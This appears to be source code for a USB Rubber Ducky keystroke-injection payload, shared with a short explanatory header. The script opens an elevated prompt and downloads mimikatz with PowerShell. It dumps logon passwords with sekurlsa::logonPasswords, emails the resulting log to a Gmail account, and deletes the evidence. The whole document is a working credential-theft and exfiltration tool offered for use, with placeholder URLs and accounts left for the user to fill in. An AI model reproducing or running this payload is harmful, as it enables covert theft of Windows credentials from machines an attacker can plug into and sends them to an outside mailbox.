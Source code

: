 REM This payload:  
REM 1. Downloads appropriate mimikatz version via http (I used dropbox)  
REM 2. Opens a admin prompt  
REM 3. saves mimikatz log to file  
REM 4. emails log via gmail  
REM 
REM 
REM please change these lines to something (keep the single quote):  
REM 'url to 32bit mimikatz.exe'  
REM 'url to 64bit mimikatz.exe'  
REM 'gmailuser', 'gmail password'  
REM 'sending email account'  
REM 'email account to send report'  
REM 
REM 
REM Sorry about the wacky delays!  


```
REM Author: Pesce
REM Date: 10/20/2013
REM Note: Thanks to all the help everyone! This is my first attempt, don't be to upset!
REM -------------open command prompt with admin privileges
DELAY 3000
CONTROL ESCAPE
DELAY 1000
STRING cmd
DELAY 1000
CTRL-SHIFT ENTER
DELAY 1000
ALT y
ENTER
DELAY 300
REM -------------download appropriate mimikatz for architecture
STRING powershell if ([System.IntPtr]::Size -eq 4) { (new-object System.Net.WebClient).DownloadFile('http://url to 32bit mimikatz.exe','%TEMP%\pw.exe');  }else{ (new-object System.Net.WebClient).DownloadFile('http://url to 64bit mimikatz.exe','%TEMP%\pw.exe');}
ENTER
DELAY 5000
REM -------------get the passwords and save to c:\pwlog.txt
STRING %TEMP%\pw.exe > c:\pwlog.txt & type pwlog.txt;
ENTER
DELAY 2000
STRING privilege::debug
ENTER
DELAY 1000
STRING sekurlsa::logonPasswords full
ENTER
DELAY 1000
STRING exit
ENTER
DELAY 300
STRING del %TEMP%\pw.exe
ENTER
DELAY 300
REM -------------email log via gmail
STRING powershell
ENTER
DELAY 300
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('gmailuser', 'gmail password');
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'sending email account'
ENTER
STRING $ReportEmail.To.Add('email account to send report')
ENTER
STRING $ReportEmail.Subject = 'Duck Report'
ENTER
STRING $ReportEmail.Body = 'Attached is your duck report.' 
ENTER
STRING $ReportEmail.Attachments.Add('c:\pwlog.txt')
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
DELAY 1000
STRING exit
ENTER
REM ---------------------delete and end
STRING del c:\pwlog.txt
ENTER
DELAY 300
STRING exit
ENTER
```
